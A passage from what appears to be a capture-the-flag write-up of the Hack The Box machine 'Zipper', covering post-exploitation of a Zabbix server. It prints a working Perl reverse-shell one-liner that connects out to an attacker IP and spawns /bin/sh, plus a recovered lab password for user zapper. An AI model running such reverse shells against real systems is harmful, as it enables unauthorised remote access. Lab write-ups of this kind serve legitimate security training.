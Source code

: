 Now we have code execution on Zabbix Server, lets get an reverse shell :

**`perl -e 'use Socket;$i="10.10.14.14";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Zipper%20Box%20915f35717e244b239ccd458c3a975dab/Untitled%2015.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Zipper%20Box%20915f35717e244b239ccd458c3a975dab/Untitled%2015.png)

We're in an docker container :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Zipper%20Box%20915f35717e244b239ccd458c3a975dab/Untitled%2016.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Zipper%20Box%20915f35717e244b239ccd458c3a975dab/Untitled%2016.png)

⇒ We find an bash script in /usr/lib/zabbix/externalscripts :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Zipper%20Box%20915f35717e244b239ccd458c3a975dab/Untitled%2017.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Zipper%20Box%20915f35717e244b239ccd458c3a975dab/Untitled%2017.png)

The password could potentially be password for user zapper.

Password : **ZippityDoDah**

→ Enumerating further we don't find much on docker machine. 

⇒ Lets get an shell on Zabbix Agent now :

